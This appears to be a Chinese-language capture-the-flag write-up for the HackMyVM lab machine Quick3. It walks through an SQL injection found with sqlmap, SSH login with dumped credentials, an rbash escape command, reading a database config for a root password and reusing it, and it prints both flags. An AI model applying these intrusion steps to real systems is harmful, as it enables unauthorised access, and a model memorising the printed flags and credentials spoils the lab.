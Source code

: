 # Quick3

2025.03.27 https://hackmyvm.eu/machines/machine.php?vm=Quick3

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

q27QAO6FeisAAtbW

http://192.168.5.39/customer/ 注册一个用户后，发现在用户修改密码的功能点存在 sql 注入。

sqlmap 跑出了注入点，拿到了 users 表内容，后台中没有上传文件的地方，直接用这几个用户凭据爆一下 ssh：

```

```

使用 mike:6G3UCx6aH6UYvJ6m 登陆 ssh，拿到 user flag：

```
HMV{717f274ee66f8541a3031f175f615e72}
```

有 rbash，重新 ssh 登陆：

```
ssh mike@192.168.5.39 -t "bash --noprofile"
```

枚举后，发现数据库的连接配置文件：

```
mike@quick3:/var/www/html/customer$ cat config.php
<?php
// config.php
$conn = new mysqli('localhost', 'root', 'fastandquicktobefaster', 'quick');

// Check connection
if ($conn->connect_error) {
	die("Connection failed: " . $conn->connect_error);
}
?>
```

尝试用密码 fastandquicktobefaster 切换到 root，成功，拿到 root flag：

```
HMV{f178761104e933f9341f13f64b38538a}
```
